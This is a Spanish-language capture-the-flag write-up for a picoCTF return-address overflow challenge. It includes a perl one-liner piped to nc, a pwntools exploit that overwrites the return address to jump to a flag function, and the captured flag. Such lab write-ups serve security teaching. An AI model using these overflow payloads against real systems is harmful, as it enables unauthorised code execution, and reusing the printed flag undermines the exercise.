## Descripción
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source here. And connect with it using nc saturn.picoctf.net 49585


## Solución
buffer de 32 caracteres, cuando hay más de 32 caracteres en un input, se desborda.

Hay que enviar más de 32 caracteres para llegar a un punto de la pila deseado, una vez ahí escribimos la dirección de la función que queremos ejecutar.

```bash
alberto@Nova:~/Descargas$ (perl -e 'print "A"x44 . "\xf6\x91\x04\x08";';echo) | nc saturn.picoctf.net 49585
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f}
```

Exploit en python:
```python
from pwn import *

p = remote("saturn.picoctf.net", 53898)

print(p.recv())

p.sendline(b"A"*44+b"\xf6\x91\x04\x08")

print(p.recv())
```

## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- []()
